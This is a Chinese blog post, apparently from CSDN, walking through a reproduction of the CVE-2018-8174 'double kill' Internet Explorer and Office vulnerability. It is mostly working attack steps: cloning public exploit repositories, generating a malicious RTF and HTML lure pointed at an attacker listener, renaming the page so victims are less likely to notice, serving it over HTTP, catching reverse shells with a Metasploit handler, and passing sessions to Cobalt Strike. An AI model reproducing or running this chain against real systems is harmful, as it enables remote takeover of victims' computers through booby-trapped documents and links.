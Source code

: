 **目录**

[CVE-2018-8174双杀漏洞复现一(不稳定)](#t0 "CVE-2018-8174双杀漏洞复现一(不稳定)")

[下载payload](#t1 "下载payload")

[MSF监听](#t2 "MSF监听")

[CVE-2018-8174双杀漏洞复现二](#t3 "CVE-2018-8174双杀漏洞复现二")

[生成payload](#t4 "生成payload")

[MSF监听](#MSF%E7%9B%91%E5%90%AC "MSF监听")

[派生给CS](#t5 "派生给CS")

* * *

双杀漏洞攻击是一种新型的IE浏览器0day漏洞和新型Office文档漏洞。该漏洞影响最新版本的IE浏览器及使用了IE内核的应用程序。用户在浏览网页或打开Office文档时都可能中招，最终被黑客植入后门[木马](https://so.csdn.net/so/search?q=%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020)完全控制电脑。该漏洞最早是由360追日团队于2018年4月捕获到的，微软在4月20号也确认了此漏洞，并在5月8号发布了官方补丁。

**漏洞影响版本：**

CVE-2018-8174双杀漏洞复现一(不稳定)
-------------------------

### 下载payload

```
git clone https://github.com/0x09AL/CVE-2018-8174-msf.git  #下载CVE-2018-8174到本地      
#进入该目录      
cp CVE-2018-8174.rb /usr/share/metasploit-framework/modules/exploits/windows/fileformat/  #复制rb文件      
cp CVE-2018-8174.rtf /usr/share/metasploit-framework/data/exploits/    #复制rtf文件
```


![](https://img-blog.csdnimg.cn/20190813103616972.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### MSF监听

**注意：如果是使用公网的VPS监听，则 lhost 要设置为 0.0.0.0**

注意这里的payload必须设置成shell类型的payload，而不能是meterpreter类型的payload。

然后只要受害者使用IE浏览器访问了我们的链接：http://192.168.10.11:8080 ，或者是受害者打开了我们生成的 msf.rtf 文件，我们的MSF就能接收到其弹回来的session了。但是由于这个payload不稳定，导致虽然受害者点击了我们的恶意链接，我们也在攻击成功了，但是还是没有创建成功session。

![](https://img-blog.csdnimg.cn/2019081310453679.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

CVE-2018-8174双杀漏洞复现二
--------------------

### 生成payload

```
git clone https://github.com/Yt1g3r/CVE-2018-8174_EXP.git    #下载CVE-2018-8174python攻击脚本      
进入该目录，执行以下命令      
python CVE-2018-8174.py -u http://192.168.10.11/test.html -o test.rtf -i 192.168.10.11 -p 4444   #http://192.168.10.11/test.html就是待会要给受害者访问的链接，-i 192.168.10.11 是我们的MSF的监听地址，-p 4444是我们的MSF监听的端口      
#执行完该命令后，默认会生成exploit.html文件和我们指定的test.rtf文件，我们需要将exploit.html文件重命名为 test.html文件，这样就不容易被受害者发现      
cp exploit.html test.html      
#然后利用python在本地搭建起http服务，让受害者可以访问到test.html文件      
python -m SimpleHTTPServer 80
```


![](https://img-blog.csdnimg.cn/20190813100654892.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### MSF监听

注意这里的payload必须设置成shell类型的payload，而不能是meterpreter类型的payload。

然后只要受害者使用IE浏览器访问了我们的链接：http://192.168.10.11/test.html ，或者是受害者打开了我们生成的 test.rtf 文件，我们的MSF就能接收到其弹回来的session了

```
use exploit/multi/handler      
set payload windows/shell/reverse_tcp   #注意这里只能设置为shell类型的payload，而不能是meterpreter类型的payload      
set lhost 192.168.10.11      
set lport 4444      
exploit -j
```


![](https://img-blog.csdnimg.cn/20190813101338626.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

派生给CS
-----

由于弹回来的是shell类型的session，不好操作，所以我们可以执行命令，派生给CS。

![](https://img-blog.csdnimg.cn/20190813102059959.png)

![](https://img-blog.csdnimg.cn/20190813102043222.png)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

相关漏洞：[CVE-2019-1367](https://baijiahao.baidu.com/s?id=1645673843575905491&wfr=spider&for=pc "CVE-2019-1367")

                  [360安全大脑关于微软Win7系统IE远程执行漏洞利用](http://www.360.cn/n/11481.html "360安全大脑关于微软Win7系统IE远程执行漏洞利用")

                  [Microsoft IE jscript远程命令执行0day漏洞（CVE-2020-0674）通告](https://ti.qianxin.com/advisory/articles/microsoft-ie-jscript-remote-command-execution-0day-vulnerability-cve-2020-0674-Notice/ "Microsoft IE jscript远程命令执行0day漏洞（CVE-2020-0674）通告")

                  [Darkhotel（APT-C-06）使用“双星”0Day漏洞（CVE-2019-17026、CVE-2020-0674）针对中国发起的APT攻击分析](http://blogs.360.cn/post/apt-c-06_0day.html "Darkhotel（APT-C-06）使用“双星”0Day漏洞（CVE-2019-17026、CVE-2020-0674）针对中国发起的APT攻击分析")